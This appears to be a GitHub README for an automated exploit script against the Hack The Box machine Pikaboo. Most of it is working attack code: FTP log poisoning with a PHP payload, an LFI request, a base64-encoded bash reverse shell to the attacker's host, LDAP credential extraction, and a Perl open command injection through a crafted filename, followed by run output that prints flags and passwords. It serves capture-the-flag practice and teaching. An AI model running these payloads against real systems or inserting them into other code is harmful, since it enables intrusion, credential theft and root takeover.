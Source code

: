 # Hack The Box. Machines. Pikaboo

Machine write-up: https://7rocky.github.io/en/htb/pikaboo

### `autopwn.py`

This is a Python script that automates all the steps needed to compromise the machine. These are the steps:

- Log poisoning
- Shell as `www-data`
- System enumeration
- LDAP enumeration to get `pwnmeow`'s FTP password
- Store malicious file via FTP for command injection
- Shell as `root`

All these steps can be followed in the main function:

```python
def main():
    ftp = FTP(rhost)

    rev_shell = f'bash -i  >& /dev/tcp/{lhost}/{lport} 0>&1'.encode()
    command = f'echo {b64e(rev_shell)} | base64 -d | bash'

    shell = log_poisoning(ftp, command)
    user = user_enum(shell)
    ldap_user, ldap_password = ldap_enum(shell)

    log.info(f'Found LDAP user: {ldap_user}')
    log.info(f'Found LDAP password: {ldap_password}')

    ftp_password = ldap_search(shell, user, ldap_user, ldap_password)

    log.info(f'Found FTP password: {ftp_password}')

    shell = command_injection(ftp, user, ftp_password, command)
    root_flag(shell)

    log.success('Got shell as root')
    shell.interactive(prompt='')
```

First we define the reverse shell command as a Bash command encoded in Base64. Something like his:

```console
$ echo -n 'bash  -i >& /dev/tcp/10.10.17.44/4444 0>&1' | base64 
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTcuNDQvNDQ0NCAwPiYx
```

Then we use `log_poisoning` to obtain a shell as `www-data`:

```python
def log_poisoning(ftp, command: str):
    log_file = '/var/log/vsftpd.log'
    lfi_website = f'http://{rhost}/admin../admin_staging/index.php'
    log_poisoning_url = f'{lfi_website}?page={log_file}'

    try:
        ftp.login(f'<?php system("{command}"); ?>', 'asdf')
    except error_perm:
        log.info(f'FTP log ({log_file}) has been poisoned')
        sleep(5)

    Thread(target=requests.get, args=(log_poisoning_url, )).start()

    return listen_for_shell()
```

What it does is basically login to FTP with a username that contains PHP code, and then use an LFI vulnerability to include the FTP log file and execute the PHP code (which contains a system command with the reverse shell).

The function `listen_for_shell` does what its name says:

```python
def listen_for_shell(timeout: int = 20):
    shell = listen(lport, timeout=timeout).wait_for_connection()

    if shell.sock is None:
        log.error(f'Could not to connect to {rhost}')

    return shell
```

After obtaining a shell, we get the `pwnmeow` username and capture the `user.txt` flag:

```python
def user_enum(shell) -> str:
    shell.sendlineafter(b'$', b'ls /home')
    shell.recvline()
    user = shell.recvline().decode().strip()

    log.info(f'Found user: {user}')
    sleep(1)

    shell.sendline(f'cat /home/{user}/user.txt'.encode())
    shell.recvline()
    user_txt = shell.recvline().decode().strip()

    log.warning(f'Found user.txt: {user_txt}')
    sleep(1)

    return user
```

Then, we find some LDAP credentials in file `/opt/pokeapi/config/settings.py` (read the [write-up](https://7rocky.github.io/en/htb/pikaboo) for more information). We need to use some regular expressions to extract the desired values:

```python
def ldap_enum(shell) -> Tuple[str]:
    shell.sendline(b'cat /opt/pokeapi/config/settings.py')
    shell.recvuntil(b'DATABASE')
    settings = shell.recv(2048, timeout=2).decode()

    ldap_settings = re.findall(r'''
\s+"ldap": {
    \s+"ENGINE": ".*?",
    \s+"NAME": ".*?",
    \s+"USER": "(.*?)",
    \s+"PASSWORD": "(.*?)",
\s+}''', settings)

    ldap_user, ldap_password = ldap_settings[0]
    return ldap_user, ldap_password
```

Once we have credentials for LDAP, we can use `ldapsearch` command using the function `ldap_search` (again, read the [write-up](https://7rocky.github.io/en/htb/pikaboo) for more details). Regular expressions are needed too:

```python
def ldap_search(shell, user: str, ldap_user: str, ldap_password: str) -> str:
    base = 'dc=ftp,dc=pikaboo,dc=htb'
    ldapsearch = f"ldapsearch -xD {ldap_user} -w '{ldap_password}' -b {base}"

    shell.sendline(ldapsearch.encode())
    shell.recvuntil(user.encode())
    res = shell.recv(2048, timeout=2).decode()

    ftp_password_enc = re.findall(r'userPassword:: (.*?)$', res, re.MULTILINE)
    return b64d(ftp_password_enc[0]).decode()
```

Finally, we perform a command injection into a Cron job exploiting a Perl open argument injection vulnerability.

To make this action work, the file must be crafted in a singular way and uploaded to a directory inside `/srv/ftp`. And this task must be done using Python's `ftplib` library and instructions (find library documentation [here](https://docs.python.org/3/library/ftplib.html)).

To create the malicious file, a system command (namely, `os.system`) must be used to avoid errors. Afterwards, the file is removed with another system command.

```python
def command_injection(ftp, ftp_user: str, ftp_password: str, command: str):
    filename = f'|{command}|.csv'
    os.system(f"touch '{filename}'")

    ftp.login(ftp_user, ftp_password)

    dirs = []
    ftp.dir(dirs.append)
    directory = dirs[0].split()[-1]

    ftp.cwd(directory)

    ftp.storlines(f'STOR {filename}', open(filename))
    log.info('Stored malicious file with injected command in filename')

    os.system(f"rm '{filename}'")
    ftp.close()

    return listen_for_shell(timeout=120)
```

Additionally, we have another function to capture the `root.txt` flag:

```python
def root_flag(shell):
    shell.sendlineafter(b'#', b'cat /root/root.txt')
    shell.recvline()
    root_txt = shell.recvline().decode().strip()

    log.warning(f'Found root.txt: {root_txt}')
```

Finally, we can execute the script and compromise the machine with just one click:

```console
$ python3 autopwn.py 10.10.17.44
[*] FTP log (/var/log/vsftpd.log) has been poisoned
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.10.249 on port 47390
[*] Found user: pwnmeow
[!] Found user.txt: f3417b113fe715a58e02f9e29fe6c736
[*] Found LDAP user: cn=binduser,ou=users,dc=pikaboo,dc=htb
[*] Found LDAP password: J~42%W?PFHl]g
[*] Found FTP password: _G0tT4_C4tcH_'3m_4lL!_
[*] Stored malicious file with injected command in filename
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.10.249 on port 47396
[!] Found root.txt: 3904cd5b02fd88be5264107d52282460
[+] Got shell as root
[*] Switching to interactive mode
root@pikaboo:/srv/ftp/abilities#
```
